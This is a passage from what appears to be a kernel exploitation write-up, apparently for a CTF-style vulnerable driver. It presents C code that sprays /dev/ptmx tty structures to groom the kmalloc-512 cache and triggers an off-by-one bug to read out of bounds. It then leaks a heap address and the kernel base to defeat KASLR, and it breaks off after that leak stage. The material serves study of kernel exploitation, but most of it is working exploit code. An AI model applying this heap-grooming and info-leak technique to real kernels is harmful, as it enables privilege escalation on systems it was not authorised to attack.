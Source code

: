 - Exploit the off-by-one vulnerability to select a `fatptr` object outside the `bank` bounds
- Read data from the current object
- Compute kernel base by subtracting associated offset



Here is the code just doing this : 

```c
int main(int argc, char *argv[]) {
    int fds [0x400] = {};
    char buf[0x100] = {};

    int fd = open_device();
    if (fd < 0) {
        return -1;
    }

    // Adjusting the heap

    // Fill the holes inside kmalloc-512 cache
    for (int i = 0; i < 0x30; i++) {
        fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    }

    // Free the allocated structures in reverse order
    // in order to control the order of the subsequent allocations
    for (int i = 0x2f; i >= 0; i--) {
        close(fds[i]);
    }

    // Create 32 fatptr objects in order to fill the bank inside the kmalloc-512 cache
    for (int i = 0; i < ENTRIES_COUNT; i++) {
        create(fd, 0x400);
    }
    
    // Allocates again the tty-related structures in order to
    // place them just after the bank
    for (int i = 0; i < 0x30; i++) {
        fds[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    }

    // Exploit the off-by-one vulnerability inside the kmalloc-512 cache
    switch_channel(fd, ENTRIES_COUNT);

    // Now our current fatptr object points to the beginning of the 
    // tty-related structuer
    
    // Reading from it
    size_t len = read_channel(fd, buf, 0x100, 0);

    // Getting leaks
    unsigned long heap_addr = *(unsigned long *)(buf + 0x30) - 0x50; // bank end
    unsigned long kernel_base = *(unsigned long *)(buf + 0x50) - 0x14d3180; // tty_port_default_client_ops offset

    printf("heap_addr = 0x%lx\n", heap_addr);
    printf("kernel_base = 0x%lx\n", kernel_base);
    
    // ...
}
```

